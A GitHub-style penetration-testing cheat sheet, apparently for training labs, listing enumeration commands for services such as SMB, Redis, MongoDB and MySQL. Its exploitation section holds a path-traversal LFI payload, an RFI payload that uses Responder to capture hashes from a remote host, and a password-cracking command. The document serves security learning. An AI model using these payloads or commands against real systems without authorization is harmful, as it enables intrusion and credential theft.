# Penetration Testing

Overview
---------
1. - [Enumeration](#1---enumeration)
2. - [Exploitation](#2---exploitation)
3. - [Lateral Movement](#3---lateral-movement)
4. - [Privilege Escalation](#4---privilege-escalation)
5. - [Miscellaneous](#5---Miscellaneous)
6. - [Online Resources](#6---online-resources)
7. - [Browser Plugins](#7---browser-plugins)
     
#1. - Enumeration
-----------------------------------------

- Nmap

```
$ nmap -sC -sV -p- -Pn -A <IP address>
$ nmap -sC -sV -p- -Pn -A -sU <IP address>
$ nmap --top-ports=100 <IP address>
$ nmap <IP address> --script vuln
```

- FTP

```
$ ftp <IP address> (anonymous:anonymous)
ftp> dir
ftp> get <file>
ftp> put <file>
```

- Telnet

```
$ telnet <IP address>
```

- Smbclient

```
$ smbclient -L <IP address>
$ smbclient -L <IP address> -U <username>
$ smbclient \\\\<IP address>\\c$
$ smbclient \\\\<IP address>\\c$ -U <username>
```

- Redis-cli

```
$ redis-cli -h <IP address>
<IP address>:6379> select <db number e.g. 0>
<IP address>:6379> keys *
<IP address>:6379> get <key>
```

- Xfreerdp

```
$ xfreerdp /v:<IP address>
$ xfreerdp /v:<IP address> /u:Administrator
$ freerdp /v:<IP address> /cert:ignore /u:Administrator
```

- Gobuster

```
$ gobuster dir -w <wordlist> -u <URL>
$ gobuster dir -w <wordlist> -u <URL> -x php,html
$ gobuster vhost -w <wordlist> -u <URL>
```

- MongoDB

```
$ ./mongo mongodb://<IP address>:27017
> show dbs;
> use <db name>;
> show collections;
> db.<collection>.find().pretty();
```

- Rsync

```
$ rsync --list-only <IP address>::
$ rsync --list-only <IP address>::<share>
$ rsync <IP address>::<share>/<filename> <filename>
```

- MySQL

```
$ mysql -h <IP address> -u root
MariaDB [(none)]> SHOW databases;
MariaDB [(none)]> USE <database name>;
MariaDB [(none)]> SHOW tables;
MariaDB [(none)]> SELECT * FROM <table name>;
```

#2. - Exploitation
-----------------------------------------

- Local File Inclusion (LFI)

```
http://<domain name>/<page>?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

Remote File Inclusion (RFI)

```
sudo responder -I <network interface>
http://<domain name>/<page>?page=//<IP address>/somefile
```

- John The Ripper

```
$ john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

#3. - Lateral Movement
-----------------------------------------

#4. - Privilege Escalation
-----------------------------------------

#5. - Miscellaneous
-----------------------------------------

- Connect to OpenVPN

```
$ sudo openvpn <filename>.ovpn
```

- Clone a GitHub repository

```
$ git clone <URL.git>
```

- Enable a browser to resolve a hostname to a IP address

```
Edit /etc/hosts
```

#6. - Online Resources
-----------------------------------------

- Speedguide

```
https://www.speedguide.net/port.php?port=3389
```

#7. - Browser Plugins
-----------------------------------------

- Wappalyzer: Website technology analyser

```
https://addons.mozilla.org/en-US/firefox/addon/wappalyzer/
```
